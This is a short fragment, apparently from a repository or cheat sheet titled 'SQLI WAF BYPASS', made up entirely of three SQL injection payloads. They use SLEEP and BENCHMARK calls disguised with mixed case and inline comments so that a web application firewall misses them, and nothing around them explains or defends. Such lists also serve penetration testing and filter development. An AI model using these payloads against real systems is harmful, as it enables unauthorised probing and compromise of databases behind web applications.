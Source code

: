 # SQLI WAF BYPASS

\-slEEp("5A");\-\-<br><br>
\-SleEP/\*(\*/(5);\-\-<br><br>
\-Benchmark/\*(\*/(10000000,rand())\-\-<br><br>
